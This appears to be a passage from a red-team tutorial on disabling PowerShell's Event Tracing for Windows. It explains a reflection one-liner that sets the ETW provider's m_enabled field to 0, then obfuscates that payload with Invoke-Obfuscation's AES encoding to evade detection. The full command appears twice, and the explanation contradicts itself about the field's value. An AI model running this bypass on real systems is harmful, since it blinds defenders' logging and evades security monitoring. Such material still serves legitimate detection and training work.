 ## <span style="color:lightgreen">Understanding the command</span>

This command is used to modify the behavior of the Event Tracing for Windows(ETW) in PowerShell. Specifically, it sets a private, static field within the *System.Management.Automation.Tracing.PSEtwLogProvider* class called `"m_enabled"` to true, `0` indicates that the initialization of ETW is disabled.

Here is a breakdown of the command and what each part does:

1. `[Reflection.Assembly]::LoadWithPartialName('System.Core')` loads the `System.Core` assembly into memory.
2. `.GetType('System.Diagnostics.Eventing.EventProvider')` retrieves the `EventProvider` type from the loaded assembly.
3. `.GetField('m_enabled','NonPublic,Instance')` retrieves the `m_enabled` field of the **EventProvider** type, which determines whether event tracing is enabled for that provider.
4. `.SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)` sets the `m_enabled` field of the PowerShell ETW provider to `0` (disabled). This prevents PowerShell from logging events to the Windows Event Log or other ETW consumers.

## <span style="color:lightgreen">Patching ETW</span>

We have already learned how to patch PowerShell scripts manually. I will explain how to obfuscate Powershell using **Invoke-Obfuscation** for this example. I already have this setup on my Commando-VM. 

+ First thing is that we can launch **Invoke-Obfuscation**

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/c642ce31-8cd8-49f4-a70f-6d5ce9dd2a06)

+ We can set our payload and use AES encryption to encrypt our payload.
```powershell
Invoke-Obfuscation> SET SCRIPT BLOCK [Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)

Invoke-Obfuscation> ENCODING
Invoke-Obfuscation> ENCODING\5
```

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/a3c9c816-38ab-4582-b72c-5005e1f85193)

+ The encrypted payload will be visible at the end of the screen.

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/9f11eac3-2246-43ad-8170-962a1dcc1e85)

+ Now we can execute the payload. Before doing that, we need to understand why we have encrypted the payload and what the payload does. First, lets directly execute the payload.

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/5a6c41bb-91dc-46eb-bb0d-4c7528e87721)
